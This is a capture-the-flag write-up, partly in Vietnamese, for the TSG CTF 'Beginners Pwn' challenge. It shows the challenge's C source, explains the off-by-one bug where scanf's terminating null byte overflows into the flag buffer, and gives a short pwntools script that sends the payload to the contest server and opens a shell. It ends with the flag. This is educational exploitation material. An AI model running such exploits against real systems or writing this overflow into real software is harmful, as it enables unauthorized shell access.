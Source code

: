# Beginners Pwn

# Reverse file

File 64-bit, dynamic linked, not stripped
```sh
chall: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=952a40648deab041f57c72cf67f169974c428f9c, for GNU/Linux 3.2.0, not stripped
```

Checksec file

```sh
Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Source code

```c
void win() {
    system("/bin/sh");
}

void init() {
    alarm(60);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

int main(void) {
    char your_try[64]={0};
    char flag[64]={0};

    init();

    puts("guess the flag!> ");

    FILE *fp = fopen("./flag", "r");
    if (fp == NULL) exit(-1);
    size_t length = fread(flag, 1, 64, fp);

    scanf("%64s", your_try);

    if (strncmp(your_try, flag, length) == 0) {
        puts("yes");
        win();
    } else {
        puts("no");
    }
    return 0;
}
```

## Tìm Lỗi

Lỗi nằm ở hàm Scanf, khi nhập vào sẽ insert \x00 vào cuối chuỗi, tràn 1 byte qua flag[64].

# Exploit 

Nhập your_try = "\x00" và fill đủ 64 ký tự thì 1 byte \x00 sẽ tràn qua flag, điều kiện đúng nên sẽ gọi hàm win.

```sh
from pwn import *
s = remote("34.146.101.4", 30007)
#s = process("./chall")
raw_input("debug")
payload = "\x00" + "A"*63
s.sendline(payload)

s.interactive()


```

# TSGCTF{just_a_simple_off_by_one-chall_isnt_it}